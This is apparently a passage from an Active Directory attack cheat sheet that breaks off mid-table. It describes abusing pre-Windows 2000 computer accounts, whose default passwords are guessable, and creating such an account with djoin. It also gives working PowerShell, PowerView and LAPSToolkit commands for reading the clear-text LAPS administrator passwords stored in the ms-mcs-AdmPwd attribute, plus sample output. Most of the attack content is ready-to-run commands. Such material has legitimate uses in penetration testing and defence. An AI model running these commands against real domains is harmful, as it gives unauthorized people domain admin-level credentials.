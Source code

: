 When `Assign this computer account as a pre-Windows 2000 computer` checkmark is checked, the password for the computer account becomes the same as the computer account in lowercase. For instance, the computer account **SERVERDEMO$** would have the password **serverdemo**. 

```ps1
# Create a machine with default password
# must be run from a domain joined device connected to the domain
djoin /PROVISION /DOMAIN <fqdn> /MACHINE evilpc /SAVEFILE C:\temp\evilpc.txt /DEFPWD /PRINTBLOB /NETBIOS evilpc
```

* When you attempt to login using the credential you should have the following error code : `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`.
* Then you need to change the password with [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304)


## Reading LAPS Password

> Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure. 

### Determine if LAPS is installed

```ps1
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

### Extract LAPS password

> The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

 - From Windows:

   * adsisearcher (native binary on Windows 8+)
       ```powershell
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
       ```

   * [PowerView](https://github.com/PowerShellEmpire/PowerTools)
       ```powershell
       PS > Import-Module .\PowerView.ps1
       PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
       ```

   * [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
       ```powershell
       $ Get-LAPSComputers
       ComputerName                Password                                 Expiration         
       ------------                --------                                 ----------         
       example.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18
